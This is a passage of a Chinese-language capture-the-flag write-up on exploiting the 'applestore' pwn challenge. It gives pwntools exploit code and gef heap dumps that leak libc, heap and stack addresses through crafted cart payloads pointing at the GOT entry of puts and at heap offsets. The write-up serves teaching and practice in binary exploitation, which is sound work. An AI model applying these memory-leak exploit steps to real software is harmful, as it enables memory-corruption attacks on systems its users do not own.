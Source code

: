 故我们泄露出的地址0x9ffe490比堆空间的起始地址多了0x490的偏移，故修正堆的地址：

```python
io.recvuntil('27: ')
libc_addr = u32(io.recv(4)) - libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4)) - 0x490
```

至于这个偏移为啥是固定的，我认为应该是程序每次的堆操作都是固定的，所以偏移也是固定的。这个偏移中还存在着asprintf的堆操作，所以不同版本的libc可能偏移时不同的，但是同一个libc下应该是固定的。

### 泄露栈地址

有了堆段的地址后，我们还可以泄露出当前栈的地址（目前还是不知道为什么要泄露栈地址，反正一顿泄露就对了），因为第26个节点的fd存放的就是第27个节点的地址，所以我们只要找到第26个节点的fd的地址，然后再次利用cart函数即可泄露出栈地址。我们继续在刚刚的gdb窗口中按c，然后在和程序交互输入1，即可断到设置的断点(0x8048beb)上，然后查看esp和ebp，以及观察堆上的chunks：

```python
gef➤  heap chunks
...
Chunk(addr=0x9ffe8a8, size=0x18, flags=PREV_INUSE)
    [0x09ffe8a8     c0 e8 ff 09 2b 01 00 00 28 32 cc ff 90 e8 ff 09    ....+...(2......]
Chunk(addr=0x9ffe8c0, size=0x18, flags=PREV_INUSE)
    [0x09ffe8c0     69 50 68 6f 6e 65 20 36 20 50 6c 75 73 00 00 00    iPhone 6 Plus...]
Chunk(addr=0x9ffe8d8, size=0x10, flags=PREV_INUSE)
    [0x09ffe8d8     69 50 68 6f 6e 65 20 38 00 00 00 00 29 00 00 00    iPhone 8....)...]
Chunk(addr=0x9ffe8e8, size=0x28, flags=PREV_INUSE)
    [0x09ffe8e8     b0 47 f9 f7 b0 47 f9 f7 00 00 00 00 11 07 02 00    .G...G..........]
Chunk(addr=0x9ffe910, size=0x18, flags=)
    [0x09ffe910     69 50 68 6f 6e 65 20 36 20 50 6c 75 73 00 00 00    iPhone 6 Plus...]
Chunk(addr=0x9ffe928, size=0x206e0, flags=PREV_INUSE)  ←  top chunk
gef➤  p $esp
$5 = (void *) 0xffcc3250
gef➤  p $ebp
$6 = (void *) 0xffcc3288
```

可以看到0x9ffe8a8这个堆块的第3个4字节处为0xffcc3228，位于栈空间，这个位置为0x9ffe8a8+0x8=0x9ffe8b0，距离堆段的偏移为：0x9ffe8b0-0x9ffe000=0x8b0，故我们构造堆段起始地址heap_adrr+0x8b0为payload，即可泄露位于栈空间的第27个节点的地址：

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF('applestore')
libc = ELF('../../my_ubuntu32_libc.so')
io = process(myelf.path)

add = '2';delete='3';cart='4';checkout='5'

def action(num,payload):
    io.sendlineafter('> ',num)
    io.sendlineafter('> ',payload)
for i in range(6):
    action(add,'1')
for i in range(20):
    action(add,'2')
action(checkout,'y')

payload = 'y\x00'+p32(myelf.got['puts'])+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)

io.recvuntil('27: ')
libc_addr = u32(io.recv(4))-libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4))-0x490

payload = 'y\x00'+p32(heap_addr+0x8b0)+p32(1)+p32(0x0804B070)+p32(1)
```